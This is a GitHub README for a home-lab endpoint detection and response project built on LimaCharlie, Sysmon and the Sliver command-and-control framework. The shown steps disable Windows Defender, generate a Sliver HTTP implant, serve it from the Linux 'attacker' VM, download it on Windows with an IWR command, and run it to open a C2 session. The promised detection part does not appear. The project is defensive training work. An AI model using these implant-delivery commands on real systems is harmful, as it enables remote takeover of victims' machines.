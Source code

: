 <h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attack is monitored, detected and blocked using the Endpoint Detection and Response agent
called LimaCharlie.Through LimaCharlie, simulated attacks are detected and blocked using detection/block rules.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack Monitor & Detection</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)



    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
